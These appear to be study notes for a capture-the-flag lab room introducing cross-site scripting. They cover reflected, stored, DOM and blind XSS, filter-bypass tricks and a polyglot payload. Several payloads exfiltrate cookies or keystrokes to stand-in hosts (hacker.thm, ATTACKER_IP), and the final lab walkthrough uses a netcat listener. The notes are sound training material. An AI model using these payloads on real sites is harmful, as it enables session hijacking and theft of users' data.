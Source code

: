 # 📌 Introduction to Cross-site Scripting (XSS)

---

## ✅ Task 1: Room Brief

Cross-Site Scripting (**XSS**) is a security vulnerability classified as an injection attack, where malicious JavaScript is injected into web applications to be executed by other users.

### Prerequisites:

* Basic understanding of JavaScript
* Basic understanding of Client-Server interactions

### Real-world Impact Examples:

* Shopify XSS
* \$7,500 reward for Steam chat XSS
* \$2,500 reward for HackerOne XSS
* Infogram XSS

---

## ✅ Task 2: XSS Payloads

### What is a payload?

A payload in XSS is JavaScript code intended to execute on a target’s browser.

### Common Payloads:

**Proof Of Concept:**

```html
<script>alert('XSS');</script>
```

**Session Stealing:**

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger:**

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>
```

**Business Logic Exploit:**

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

---

## ✅ Task 3: Reflected XSS

Reflected XSS occurs when input is directly reflected without validation.

### Example Scenario:

User input is directly reflected in an error message without validation:

```html
http://website.thm/?error=<script>alert('XSS');</script>
```

### How to Test:

* URL parameters
* HTTP headers (rare)
* URL path

---

## ✅ Task 4: Stored XSS

Stored XSS payload is saved in databases and executed when users view content.

### Example Scenario:

Comments on a blog:

```html
<script>alert('XSS');</script>
```

### How to Test:

* User-generated content (comments, profiles, posts)
* Manipulate expected input types

---

## ✅ Task 5: DOM Based XSS

DOM-based XSS exploits happen within the Document Object Model (DOM) without server-side changes.

### Exploitation Example:

Manipulating the URL hash:

```html
http://website.thm/#<script>alert('XSS')</script>
```

### Testing Steps:

* Identify JavaScript code handling input
* Analyze DOM interactions (e.g., `window.location`)

---

## ✅ Task 6: Blind XSS

Blind XSS is stored and executed in an environment not directly accessible by the attacker.

### Example Scenario:

Support ticket systems:

```html
<script>fetch('https://hacker.thm/log?cookie=' + btoa(document.cookie));</script>
```

### Testing Method:

* Use tools like XSS Hunter Express
* Include callback payloads

---

## ✅ Task 7: Perfecting your Payload

### Key Payload Modifications:

**Basic Alert Payload:**

```html
<script>alert('THM');</script>
```

**Escaping input tag:**

```html
"><script>alert('THM');</script>
```

**Escaping textarea tag:**

```html
</textarea><script>alert('THM');</script>
```

**Escaping JavaScript contexts:**

```html
';alert('THM');//
```

**Bypassing filters:**

```html
<sscriptcript>alert('THM');</sscriptcript>
```

**IMG Tag Event:**

```html
/images/cat.jpg" onload="alert('THM');
```

**Universal Polyglot Payload:**

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## ✅ Task 8: Practical Blind XSS Example

### Steps for Exploitation:

1. **Create Account & Login**: `https://LAB_WEB_URL.p.thmlabs.com`
2. **Submit Basic Ticket:** Enter "test" and submit.
3. **Payload for initial test:**

```html
</textarea>test
```

4. **XSS Payload Test:**

```html
</textarea><script>alert('THM');</script>
```

5. **Session Cookie Stealing Payload:**

* Start netcat listener:

```bash
nc -nlvp 9001
```

* Payload to exfiltrate cookie:

```html
</textarea><script>fetch('http://ATTACKER_IP:9001?cookie=' + btoa(document.cookie));</script>
```

* Decode the Base64 cookie on reception.

---

## ✅ Recommendations & Mitigations:

* Implement strict input validation.
* Utilize Content Security Policies (CSP).
* Encode output based on context.
* Regularly audit and update your web applications.

---

🎉 **Happy Hacking!**
